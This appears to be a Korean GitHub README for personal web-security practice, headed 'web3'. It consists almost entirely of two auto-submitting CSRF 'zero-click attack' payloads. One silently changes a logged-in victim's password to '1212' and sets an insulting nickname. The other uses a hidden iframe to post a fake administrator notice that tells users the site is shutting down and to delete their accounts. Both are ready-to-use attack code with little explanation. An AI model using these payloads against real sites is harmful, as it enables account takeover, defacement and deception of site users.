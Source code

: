 # web3

<h1> 웹 보안 연습용 </h1> 
<p> 2021년 6월 12일 시작 </p>

  * <h3>제로 클릭 어택 </h3>


          <form  id="hack" action="../info_change.php" method="POST">
          <input type="hidden" name="user_pw1" value="1212" >
          <input type="hidden" name="user_pw2" value="1212" >
          <input type="hidden" name="age" value="50">
          <input type="hidden" name="nick" value="멍청이">
          <input type="hidden" name="email" value="">
          </form>
          <script>
          document.getElementById("hack").submit();
          </script    >


 * <h3>CSRF 제로 클릭 어택 </h3>

       <iframe name ="a" width ="0" height ="0" sandbox></iframe> 
       <form id ="hack" action="board_write_ok.php" method="post" target="a">
       <input type="hidden" name="name" value="관리자" >
       <input type="hidden" name="pw" value="12345" >
       <input type="hidden" name="email" value="admin@kh.com">
       <input type="hidden" name="sub" value="[필독]공지사항">
       <input type="hidden" name="tag" value="T">
       <input type="hidden" name="cont" value="우리 사이트가 서비스가 종료되었음을 알리며 모두 탈퇴해주십쇼">
       <input type="hidden" name="att_file" value="">
       </from>
       <script>
       document.getElementById("hack").submit();
       </script    >

